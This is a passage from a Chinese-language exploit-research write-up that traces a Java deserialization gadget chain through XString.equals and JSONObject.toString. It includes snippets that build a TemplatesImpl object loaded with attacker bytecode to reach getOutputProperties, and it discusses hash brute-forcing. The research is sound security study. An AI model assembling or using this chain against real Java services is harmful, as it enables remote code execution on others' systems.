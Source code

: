   
爆破的的值为 /n  
，那么构造  
  
```
XString xs= new XString("\n");
```  
  
看到满足条件  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXfyjK91PNB1my879JYO3OF4yicWf6IBU45wbzNuabFMsOCeFz7uuD8Kg/640?wx_fmt=png&from=appmsg "")  
  
  
继续跟进，最后成功来到 equals 方法  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwX6Key6ic8eau7UB27VbWUhE9A9KfZfDxNuliadacicjwal5XhR4HrejJLg/640?wx_fmt=png&from=appmsg "")  
  
  
然后调用到了 JSONObject.toString 方法  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwX4Db2wBgia5X9P0VdGcRPPeTYhLmic71QS3btqBHlkRwn1XEO8H32aCjw/640?wx_fmt=png&from=appmsg "")  
  
  
不过这里再看看上面 payload 发现  
  
```
JSONObject jsonObject = new JSONObject();  jsonObject.put("g","m");  
```  
  
要想最后调用 TemplatesImpl#getOutputProperties  
 方法还需要这样构造  
  
```
TemplatesImpl tem =new TemplatesImpl();  byte[] code = Files.readAllBytes(Paths.get("D:/gaoren.class"));  setValue(tem, "_bytecodes", new byte[][]{code});  setValue(tem, "_tfactory", new TransformerFactoryImpl());  setValue(tem, "_name", "gaoren");  setValue(tem, "_class", null);  JSONObject jsonObject = new JSONObject();  jsonObject.put("g",tem);  
```  
  
然后再次重新爆破 hash 值，但是如果 jsonObject 中的 map 的 key 是 TemplatesImpl 对象的话其实有个问题，看看 hash(JSONObject)  
，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwX5tQ0DPb0TXRyevntwQnvuqPH4mW3guezOofLkAE9EyNSU7NKVO2trA/640?wx_fmt=png&from=appmsg "")  
  
  
跟进 key.hashcode()  
，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXb1w74rCPe2ASojoDGATZR0ibfxLyTuMGuGshSr6YATwpCPuJUgglATQ/640?wx_fmt=png&from=appmsg "")  
  
  
主要看看这里的 this.map  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXibSiavo3XG29dg2dAOedxamS5BPasy589jDg13ibUE2Vc8yxFtzPJicPibA/640?wx_fmt=png&from=appmsg "")  
  
  
这里因为TemplatesImpl 没有 hashcode 方法，会调用到 Object.hashCode()，而这个在每次实例化的时候都不一样，所以通过new实例化的TemplatesImpl和readObject实例化的TemplatesImpl是两个不同的对象，这就导致每次报错得到的 hash 和最后反序列化触发的时候始终不一样。  
  